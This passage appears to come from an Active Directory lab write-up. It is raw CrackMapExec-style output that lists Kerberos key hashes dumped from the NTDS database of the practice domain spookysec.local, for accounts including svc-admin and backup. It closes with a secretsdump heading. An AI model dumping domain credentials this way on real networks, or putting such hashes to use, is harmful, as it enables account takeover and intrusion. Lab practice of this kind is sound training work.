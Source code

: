SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\paradox:des-cbc-md5:83988983f8b34019
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
SMB         10.10.28.119   445    ATTACKTIVEDIREC  spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
SMB         10.10.28.119   445    ATTACKTIVEDIREC  [+] Dumped 69 NTDS hashes to /home/noroot/.cme/logs/ATTACKTIVEDIREC_10.10.191.145_2021-08-10_012906.ntds of which 17 were added to the database

### secretsdump
